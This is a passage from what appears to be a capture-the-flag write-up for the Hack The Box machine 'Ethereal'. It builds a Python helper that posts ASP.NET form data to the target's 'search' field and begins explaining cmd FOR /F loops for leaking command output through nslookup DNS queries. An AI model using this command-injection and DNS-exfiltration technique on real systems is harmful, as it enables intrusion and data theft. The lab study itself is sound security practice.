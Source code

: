 Now I want to send a post to the page. I'll create a function to do
that, as I may use this in multiple commands inside my terminal. The
POST sends five parameters, three of which I've already collected at
initiation, and one of which is empty:



    __VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZDq%2BFRgU9epds8vdzQCOhWx4WFqAM2hNIbgH2RI3jXSz&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOFr9TrHWt%2B2bA4FwNr3j1Y4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN9kKYZ9rDh9NVw3pnVFLEyhi%2FzP9ndEQ4bcuvdL5zBCfg%3D%3D&search=127.0.0.1&ctl02=



I just need to pass in a `search` parameter.



     43     def send_post(self, search):
     44         data = {'__VIEWSTATE': self.view_state,
     45                 '__VIEWSTATEGENERATOR': self.view_state_gen,
     46                 '__EVENTVALIDATION': self.event_val,
     47                 'search': search,
     48                 'ctl02': ''}
     49         resp = requests.post('http://ethereal.htb:8080/',
     50                              proxies=self.proxy,
     51                              data = data,
     52                              auth = self.auth)



I can test this by adding this to the default command:



     55     def default(self, args):
     56         print(f"Entered: {args}")
     57         self.send_post(search='127.0.0.1')



I'll enter any command, and then check burp to make sure that the
request worked, and that I see `Connection to host successful` in the
response.

## Command Output to nslookup

### Command For Loops

In Ethereal, I was able to get `nslookup` to query me for a domain I
gave it. Now I want to run a command and have the output encoded as a
domain that can be queried. To do that, I'll need to understand how
`for` loops work in cmd, specifically with `/F`, which is used to loop
over results of commands ([this is a good
reference](https://ss64.com/nt/for_cmd.md)).

It will take the form:



    FOR /F ["options"] %%parameter IN ('command_to_process') DO command
